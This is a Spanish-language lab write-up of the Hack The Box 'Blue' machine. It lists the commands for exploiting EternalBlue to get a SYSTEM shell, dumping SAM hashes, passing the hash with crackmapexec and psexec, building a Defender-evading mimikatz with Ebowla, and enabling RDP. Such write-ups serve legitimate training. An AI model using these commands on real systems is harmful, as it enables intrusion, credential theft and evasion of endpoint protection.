# Blue

Tags: [[_cve]],[[_persistenceTechniques]]

## Primeros pasos
(Reconocimiento).

<span style="color:#07b4f2">Organizamos</span> <span style="color:#ff2dc0">TMUX</span>.
<span style="color:#07b4f2">Activamos</span> <span style="color:#ff2dc0">VPN</span>.

Le <span style="color:#07b4f2">hacemos</span> un <span style="color:#ff2dc0">ping</span> <span style="color:#07b4f2">a</span> la <span style="color:#ff2dc0">máquina</span>. (<span style="color:#379075">Está activa o no</span>).
<span style="color:#bef202">Posible</span> <span style="color:#ff2dc0">máquina Windows</span>.

<span style="color:#07b4f2">Ponemos</span> la <span style="color:#ff2dc0">IP</span> de la <span style="color:#ff2dc0">máquina</span> <span style="color:#07b4f2">en</span> un <span style="color:#07b4f2">lugar visible</span>.
<span style="color:#07b4f2">Creamos</span> un <span style="color:#07b4f2">directorio</span> <span style="color:#07b4f2">como</span> la <span style="color:#ff2dc0">IP</span> o <span style="color:#07b4f2">nombre</span> de la <span style="color:#ff2dc0">máquina</span>.
<span style="color:#07b4f2">Creamos</span> los <span style="color:#07b4f2">directorios</span> de <span style="color:#07b4f2">trabajo</span>.

<span style="color:#bef202">Empezamos el escaneo con</span> <span style="color:#ff2dc0">NMAP</span>. <span style="color:#379075">Otro escaneo de puertos comunes por posibles falsos negativos</span>.
En este caso <span style="color:#07b4f2">no buscamos</span> <span style="color:#ff2dc0">codename</span> con <span style="color:#ff2dc0">launchpad</span>.

+ <span style="color:#ff669c">Puertos abiertos</span>

<span style="color:#ff669c">135</span> - RPC.
<span style="color:#ff669c">139</span> - NetBios.
<span style="color:#ff669c">445</span> - SMB. <span style="color:#379075">Windows 7</span>.
Y <span style="color:#07b4f2">más desde</span> el <span style="color:#ff669c">49152</span> en <span style="color:#07b4f2">adelante</span>.


## Investigación (Intrusión)
(Reconocimiento/Enumeración).

<span style="color:#ff669c">445</span>.
Vemos que es un<span style="color:#ff2dc0"> Windows 7</span>, <span style="color:#07b4f2">probemos</span> si es vulnerable al <span style="color:#ff2dc0">Eternal Blue</span>.
<span style="color:#88c425">nmap --script="vuln and safe" -p445 10.10.10.40  -oN EBscan</span>:    <span style="color:#ff2dc0">vulnerable</span>.

<span style="color:#88c425">Clonamos</span> https://github.com/worawit/MS17-010
<span style="color:#88c425">python checker.py 10.10.10.40</span> :    con <span style="color:#ecacb6">python2.7</span> 
<span style="color:#07b4f2">No detecta</span> <span style="color:#ff2dc0">named pipes</span>, pero si <span style="color:#07b4f2">modificamos</span> el <span style="color:#ff2dc0">script</span> y ponemos<span style="color:#ecacb6"> USERNAME = 'guest'</span> sí funciona.

<span style="color:#07b4f2">Usamos</span> el <span style="color:#ecacb6">42315.py</span>, es el que <span style="color:#07b4f2">está</span> en <span style="color:#ff2dc0">searchsploit</span>, <span style="color:#379075">y lo metemos en el directorio MS17-010</span>.
<span style="color:#07b4f2">Modificamos</span> el <span style="color:#ecacb6">42315.py</span>
<span style="color:#ff2dc0">Comentamos</span> y <span style="color:#ff2dc0">descomentamos</span> lo <span style="color:#07b4f2">importante</span>.
!(images/Pasted image 20241208105113.png)

Creamos un <span style="color:#ff2dc0">recurso compartido a nivel de red</span>, <span style="color:#07b4f2">ofreciendo</span> el <span style="color:#ecacb6">nc.exe</span>
Nos ponemos en <span style="color:#ff2dc0">escucha</span> por el <span style="color:#ff669c">puerto</span> especificado.
Ejecutamos el <span style="color:#ff2dc0">script</span>
<span style="color:#88c425">python 42315.py 10.10.10.40</span> :    y pa deeentro.


## Escalada

Enumerar todo el sistema.
Estamos como el usuario <span style="color:#ecacb6">nt authority\system</span> debido a que al <span style="color:#ff2dc0">explotar</span> el <span style="color:#ff2dc0">Eternal Blue</span>, se gana <span style="color:#07b4f2">acceso</span> como el <span style="color:#ecacb6">usuario</span> <span style="color:#ff2dc0">privilegiado</span>.

Fin.

<span style="color:#bef202">EXTRA</span>.
<span style="color:#ecacb6">1.-</span> <span style="color:#07b4f2">Obtener</span> <span style="color:#ff2dc0">Hashes NTLM</span>.
En <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#88c425">reg save HKLM\sam sam.backup</span>
<span style="color:#88c425">reg save HKLM\system system.backup</span>

En <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">máquina</span>.
Creo un <span style="color:#ff2dc0">recurso compartido</span> a nivel de red <span style="color:#07b4f2">por</span> <span style="color:#ff2dc0">SMB</span>.

En <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#07b4f2">Me los</span> <span style="color:#ff2dc0">transfiero</span>.

En <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">máquina</span>.
<span style="color:#88c425">impacket-secretsdump -sam sam.backup -system system.backup LOCAL</span>
!(/images/20241208125302.png)

<span style="color:#88c425">crackmapexec smb 10.10.10.40 -u 'administrator' -H 'cdf51b162460b7d5bc898f493751a0cc' --lsa</span> :    <span style="color:#07b4f2">tratar</span> de <span style="color:#07b4f2">ver</span> <span style="color:#ff2dc0">credenciales</span> en <span style="color:#ff2dc0">texto claro</span>.

<span style="color:#88c425">impacket-psexec WORKGROUP/Administrator@10.10.10.40 -hashes :cdf51b162460b7d5bc898f493751a0cc</span> :    <span style="color:#ff2dc0">conectarme</span> <span style="color:#07b4f2">con</span> <span style="color:#ff2dc0">psexec</span> 


<span style="color:#ecacb6">2.-</span><span style="color:#ff2dc0"> Dumpear credenciales </span><span style="color:#07b4f2">de</span> la <span style="color:#ff2dc0">memoria</span>.
En <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">máquina</span>.
<span style="color:#ff2dc0">Ebowla</span> para <span style="color:#07b4f2">eludir</span> el <span style="color:#ff2dc0">Defender</span>.
Clonamos https://github.com/Genetic-Malware/Ebowla
<span style="color:#88c425">mv mimikatz.exe Ebowla</span>
<span style="color:#88c425">cd Ebowla</span>
<span style="color:#88c425">vim genetic.config</span>
<span style="color:#ecacb6">output_type = GO</span>
<span style="color:#ecacb6">payload_type = EXE</span>

<span style="color:#ecacb6">[[ENV_VAR]]</span> :    hay que <span style="color:#07b4f2">ponerlas bien</span>, porque <span style="color:#07b4f2">se toman</span> las <span style="color:#ff2dc0">variables de entorno</span> de la <span style="color:#07b4f2">propia</span> <span style="color:#ff2dc0">máquina</span> para lograr <span style="color:#07b4f2">subir</span> el <span style="color:#ff2dc0">archivo</span> deseado.
Con <span style="color:#07b4f2">estas</span> son <span style="color:#07b4f2">suficientes</span>.
!(/images/20241208132242.png)

Necesita <span style="color:#ecacb6">python2</span>, hago
<span style="color:#88c425">cp -r /home/joelkami/Documentos/HTB/Maquinas/Blue/content/Ebowla .</span> :    <span style="color:#07b4f2">lo llevo a</span> mi <span style="color:#ff2dc0">entorno virtual</span>.
<span style="color:#88c425">pip install configobj</span> :    lo necesita.
<span style="color:#88c425">apt install mingw-w64</span> :    lo necesita.

<span style="color:#88c425">python ebowla.py mimikatz.exe genetic.config</span> 
<span style="color:#88c425">./build_x64_go.sh output/go_symmetric_mimikatz.exe.go final_mimi.exe</span>
<span style="color:#88c425">ls output/final_mimi.exe</span> :    ya lo podríamos <span style="color:#ff2dc0">subir</span> <span style="color:#07b4f2">a</span> la <span style="color:#ff2dc0">máquina víctima</span>.

En <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#88c425">final_mimi.exe</span> :    entramos a una <span style="color:#ff2dc0">sesión interactiva</span>.
<span style="color:#88c425">privilege::debug</span>
<span style="color:#88c425">sekurlsa::logonPasswords</span>
Y podríamos <span style="color:#07b4f2">ver</span> las <span style="color:#ff2dc0">credenciales</span> en <span style="color:#07b4f2">claro</span>.


<span style="color:#ecacb6">3.-</span> <span style="color:#ff2dc0">Habilitar</span> y <span style="color:#ff2dc0">conectarnos</span> <span style="color:#07b4f2">por</span> <span style="color:#ff2dc0">RDP</span>.
<span style="color:#88c425">crackmapexec smb 10.10.10.40 -u 'administrator' -p 'ejfnIWWDojfWEKM' -M rdp -o action=enable</span> :    usamos un <span style="color:#ff2dc0">módulo</span> de <span style="color:#ff2dc0">crackmapexec</span> para <span style="color:#07b4f2">habilitar</span> el <span style="color:#ff2dc0">RDP</span>.

<span style="color:#88c425">rdesktop 10.10.10.40 -u 'Administrator' -p 'ejfnIWWDojfWEKM'</span> 


<span style="color:#ecacb6">4.-</span> <span style="color:#ff2dc0">Persistence</span> (<span style="color:#379075">intrusive</span>).
En <span style="color:#ecacb6">Vulnerabilidades y Temas/Persistence Techniques/Persistence CheatSheets</span> <span style="color:#07b4f2">tenemos</span> distintas <span style="color:#07b4f2">vías</span>.
